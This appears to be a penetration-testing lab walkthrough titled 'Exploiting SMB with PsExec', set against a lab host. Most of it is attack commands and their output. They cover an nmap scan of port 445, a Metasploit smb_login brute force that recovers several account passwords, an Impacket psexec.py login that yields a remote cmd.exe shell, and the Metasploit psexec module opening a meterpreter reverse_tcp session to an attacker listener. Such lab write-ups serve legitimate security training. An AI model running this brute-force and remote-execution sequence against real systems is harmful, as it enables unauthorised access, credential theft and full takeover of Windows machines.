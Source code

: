# Exploiting SMB with PsExec

```sh
root@attackdefense:~# nmap 10.5.23.81 -sV -p445 -sC 
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-30 22:44 IST
Nmap scan report for 10.5.23.81
Host is up (0.0021s latency).

PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-30 22:44:49
|_  start_date: 2023-12-30 22:33:19
```

Here is the scan result obtained from nmap. Now we will look for Metasploit payload for SMB login:

```sh
msf5 > search smb_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner
```

and here we got it. After that we'll just use this script to brute force the password specially for the user Administrator:

```sh
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set rhosts 10.5.23.81
rhosts => 10.5.23.81
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set verbose false
verbose => false
msf5 auxiliary(scanner/smb/smb_login) > run

[+] 10.5.23.81:445        - 10.5.23.81:445 - Success: '.\sysadmin:samantha'
[+] 10.5.23.81:445        - 10.5.23.81:445 - Success: '.\demo:victoria'
[+] 10.5.23.81:445        - 10.5.23.81:445 - Success: '.\auditor:elizabeth'
[+] 10.5.23.81:445        - 10.5.23.81:445 - Success: '.\administrator:qwertyuiop' Administrator
[*] 10.5.23.81:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Now we can use psexec utility that is python implementation and allow us to authenticate with a target system.

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# psexec.py <a data-footnote-ref href="#user-content-fn-1">Administrator</a>@<a data-footnote-ref href="#user-content-fn-2">10.5.23.81</a> <a data-footnote-ref href="#user-content-fn-3">cmd.exe</a>
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.5.23.81.....
[*] Found writable share admin
[*] Uploading file qITOMtcx.exe
[*] Opening SVCManager on 10.5.23.81.....
[*] Creating service aEBC on 10.5.23.81.....
[*] Starting service aEBC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
</code></pre>

We can also use psexec metasploit payload but the above method is still recommended. The implementation we can see below:

```sh
msf5 > search psexec
.
.
.
msf5 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set rhosts 10.5.23.81
rhosts => 10.5.23.81
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass qwertyuiop
SMBPass => qwertyuiop
msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.26.2:4444 
[*] 10.5.23.81:445 - Connecting to the server...
[*] 10.5.23.81:445 - Authenticating to 10.5.23.81:445 as user 'Administrator'...
[*] 10.5.23.81:445 - Selecting PowerShell target
[*] 10.5.23.81:445 - Executing the payload...
[+] 10.5.23.81:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.5.23.81
[*] Meterpreter session 1 opened (10.10.26.2:4444 -> 10.5.23.81:49815) at 2023-12-30 23:04:07 +0530

meterpreter > 
```

Here we got the meterpreter session.

[^1]: username

[^2]: target host

[^3]: command to be executed on the target
